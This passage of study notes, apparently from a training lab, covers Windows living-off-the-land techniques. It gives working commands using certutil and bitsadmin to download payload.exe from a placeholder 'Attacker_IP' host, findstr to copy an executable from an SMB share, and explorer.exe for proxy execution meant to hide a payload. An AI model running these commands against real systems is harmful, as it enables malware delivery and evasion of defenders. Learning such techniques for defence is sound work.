 **Certutil:**

Download files:
```C
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

- `-urlcache` to display URL, enables the URL option to use in the command
- `-split -f ` to split and force fetching files from the provided URL.

The certutil.exe can be used as an encoding tool where we can encode files and decode the content of files

```C
certutil -encode payload.exe Encoded-payload.txt
```

**BITSAdmin:**

Download and execute:
```C
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

**FindStr:**

findstr.exe to download remote files from SMB shared folders within the network as follows,

```C
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

- `/V` to print out the lines that don't contain the string provided.

- `dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.

- `> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine.

## File Execution
---
The typical case of executing a binary involves various known methods such as using the command line `cmd.exe` or from the desktop (GUI). In our case we can achieve **payload execution by abusing system binaries** with two main reason in mind is either two hide or harden the payload's process.

In MITRE ATT&CK framework, this technique is called S**igned Binary Proxy Execution** or **Indirect Command Execution**.

**File explorer:**

`explorer.exe` can be abused to execute malicious scripts as this is the file manager and system component for Windows:

```C
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

**Note:** double clicking an executable will have a parent of `explorer.exe`.
